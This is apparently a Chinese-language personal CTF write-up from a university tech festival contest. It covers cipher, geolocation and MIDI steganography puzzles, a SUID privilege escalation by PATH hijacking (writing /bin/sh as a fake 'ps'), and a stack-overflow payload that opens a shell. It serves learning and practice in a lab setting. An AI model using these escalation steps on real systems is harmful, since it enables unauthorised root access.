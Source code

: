 ```yaml
---
title: "2025科技文化节个人WriteUp"
description: "第一次打比赛 好玩"
pubDate: "May 1 2025"
categories:
  - tech
tags:
  - CTF
  - WriteUp
---
```

# Misc

## Signin

![1746071455735](image/dlut2025_5_1/1746071455735.png)

`D{m2uD!UFW0E_oDT_u5}TT3c_O2_CfTrC1TsTE`一眼乱序，栅栏密码解密后得到 `DUTCTF{W31c0mE_TO_2o2s_DuTCTf_DuTEr5!}`

## 特定低手

![1746071579515](image/dlut2025_5_1/1746071579515.png)

发现桥上有字

![1746071605763](image/dlut2025_5_1/1746071605763.png)

调用语言模型无脑开启联网搜索

```log
地上写着 バス専用

7:30 - 9:00 Overpass有个明治通り (Meiji Dōri)

豊島区目白三丁目 (Toshima-ku Mejiro San-chōme)给我具体经纬度
```

[google地图](https://www.google.com/maps/@35.7204533,139.7130719,3a,75y,353.8h,91.22t/data=!3m7!1e1!3m5!1sXsk9Ia4QsuXgbWyH5aVmMQ!2e0!6shttps:%2F%2Fstreetviewpixels-pa.googleapis.com%2Fv1%2Fthumbnail%3Fcb_client%3Dmaps_sv.tactile%26w%3D900%26h%3D600%26pitch%3D-1.2232476107826642%26panoid%3DXsk9Ia4QsuXgbWyH5aVmMQ%26yaw%3D353.79558674265166!7i16384!8i8192!5m1!1e2?entry=ttu&g_ep=EgoyMDI1MDQyOC4wIKXMDSoJLDEwMjExNDUzSAFQAw%3D%3D)

邮编数字部分 `1710032`

## Terminal

```log
test@046413259f36:~$ find / -type f \( -perm -4000 -o -perm -2000 \) -ls 2>/dev/null
  4599371     40 -rwxr-sr-x   1 root     shadow      39160 Sep 22  2023 /usr/sbin/unix_chkpwd
  4603694     52 -rwsr-xr--   1 root     messagebus    51272 Sep 16  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  4603899    640 -rwsr-xr-x   1 root     root         653888 Feb 14 21:06 /usr/lib/openssh/ssh-keysign
  4597709     64 -rwsr-xr-x   1 root     root          62672 Mar 23  2023 /usr/bin/chfn
  4597715     52 -rwsr-xr-x   1 root     root          52880 Mar 23  2023 /usr/bin/chsh
  4597706     80 -rwxr-sr-x   1 root     shadow        80376 Mar 23  2023 /usr/bin/chage
  4597926     36 -rwsr-xr-x   1 root     root          35128 Nov 22 04:01 /usr/bin/umount
  4597850     68 -rwsr-xr-x   1 root     root          68248 Mar 23  2023 /usr/bin/passwd
  4597776     88 -rwsr-xr-x   1 root     root          88496 Mar 23  2023 /usr/bin/gpasswd
  4597834     60 -rwsr-xr-x   1 root     root          59704 Nov 22 04:01 /usr/bin/mount
  4597902     72 -rwsr-xr-x   1 root     root          72000 Nov 22 04:01 /usr/bin/su
  4597839     48 -rwsr-xr-x   1 root     root          48896 Mar 23  2023 /usr/bin/newgrp
  4597760     32 -rwxr-sr-x   1 root     shadow        31184 Mar 23  2023 /usr/bin/expiry
  4602046    476 -rwxr-sr-x   1 root     _ssh         485760 Feb 14 21:06 /usr/bin/ssh-agent
  4609046     16 -rwsr-xr-x   1 root     root          16064 Feb 28 15:46 /tmp/whatisthis
test@046413259f36:~$/tmp/whatisthis
    PID TTY          TIME CMD
     23 pts/0    00:00:00 whatisthis
     24 pts/0    00:00:00 sh
     25 pts/0    00:00:00 ps
test@046413259f36:~$ echo '/bin/sh' > ~/ps
test@046413259f36:~$ chmod +x ~/ps
test@046413259f36:~$ export PATH=~:$PATH
test@046413259f36:~$ /tmp/whatisthis
```

`/tmp/whatisthis` -> `whatisthis` 程序内部启动 `sh` -> `sh` 执行 `ps` 命令 -> `ps` 输出进程列表

路径劫持直接提权

## 我是少女乐队高手

![1746073253632](image/dlut2025_5_1/1746073253632.png)

两个音轨 相同记为 `0` 不同记为 `1`

`midi2csv` 转换后提取出

```python
a = "00010100100100011001010110010101010101000100110001010100100100011101100101001100100011000100110001011000110111101001000110011010100101100000110010011101110111011101100100011010100100111000111001"
len(a) == 194
```

多两位 把前两个丢了

![1746074085942](image/dlut2025_5_1/1746074085942.png)

# pwn

## minesweeper

`No canary found` 栈溢出

```c
__int64 read_int(void)
{
  unsigned int buf; // [rsp+Ch] [rbp-4h] BYREF

  read(0, &buf, 0x10uLL);
  return buf;
}
```

```log
win(void)	.text	000000000000222F	00000030	00000008		.	.	.	.	.	.	B	T	.
```

```python
payload = b'A'*12 + b'F'
print(f"[*] Sending payload ({len(payload)} bytes): {payload}")
io.send(payload)  # Use send() for read(), not sendline()
print("[+] Payload sent.")
io.interactive()
```

`/bin/sh` 提权

## kernel_master

解压一下就拿到了`flag{test}`

本题不会做 纯误判

# Web

## Real_E2_J5!
